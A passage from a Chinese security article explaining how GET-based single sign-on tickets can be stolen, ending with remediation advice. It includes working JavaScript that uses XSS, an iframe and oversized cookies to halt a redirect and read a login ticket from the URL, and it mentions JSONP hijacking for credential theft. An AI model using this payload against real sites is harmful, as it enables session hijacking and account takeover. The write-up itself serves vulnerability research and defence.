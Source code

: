 偷的思路：

在xss中，用iframe包含单点登录的请求1，登录跳转后，我们通过src属性可以读到请求1的url，使用iframe.contentWindow.location.href可以读到跳转最后的请求3的url。但我们需要的是中间的请求2。所以我们想，可不可以让它跳到请求2后，不再继续跳转了，这样我们通过iframe.contentWindow.location.href就可以读到请求2的url了。这时候我想起，cookie超长的拒绝服务终于可以派上用场了

偷的方式

*   Xss创建iframe，种超长cookie，让含ticket的302拒绝服务，然后使用iframe.contentWindow.location.href读取最后的iframe的当前地址

拒绝服务还有个好处，可以绕过某些ticket的防重放。因为有些票据在受害者端只要被使用后，可能我们盗取后也无法利用了。使用这种方式偷，可以让票据在受害者端不会被使用。

还有，根据path设置cookie可以精准的让我们的iframe停在我们想让它停的url上。

示例代码如下：

```
var iframe =document.createElement('iframe');
iframe.src="http://passport.wangzhan.com/login.php?url=http://www.t99y.com/a.php";
document.body.appendChild(iframe);
for (i = 0; i < 20; i++) {
    document.cookie = i + ‘=’ + ‘X’.repeat(2000);//可以根据需求设置path
 }
iframe.addEventListener('load', function(){
    document.write(iframe.contentWindow.location.href);
     for (i = 0; i < 20; i++) {
    document.cookie = i + '=' + 'X';
    }
}, false);

```

**场景五，跨域从通行证获取登陆ticket**

形式为类似`http://www.wangzhan.com/sso/getst.php?callback=jsonp`，然后通行证会返回个jsonp格式的数据，里面包含认证信息

参考案例[WooYun: 微博上你点我发的链接我就可以登上你的微博（web版和app端均可两个漏洞一并提交）](http://www.wooyun.org/bugs/wooyun-2015-0124352)

偷的几种方式

*   可能存在jsonp劫持漏洞，可以通过jsonp劫持来偷取用户的登陆凭证
*   Xss漏洞，去跨域请求此接口得到数据

0x0a 总结
=======

* * *

综上所述，get请求的滥用大家都没重视过，但综合一些小漏洞，可能会产生一些意想不到的大漏洞

修复方案其实很简单，不要使用get方法进行非读操作，不要使用get方法传输敏感信息，因为你不可能控制你所有页面不向第三方发起带referrer的资源请求，而且get请求很难保护。它只是个天真烂漫的孩子，你不要让它承载太多责任

在前几天的阿里安全峰会上，我讲了这个议题，最后的观众提问环节有人问使用https可不可以解决上面的问题。答案当然是不可以，https解决的只是客户端到服务端的传输加密防篡改。但get请求的数据在两个端，尤其是客户端，https是保护不了的。

至于单点登录问题的修复方案，有很多层面都可以去解决，比如不使用get，不让攻击者发起伪造的单点登录请求等等， 这些细节需要具体问题具体对待，这里就不细讲了。有需求的女网友可以私下找我交流，共同为互联网的安全学习进步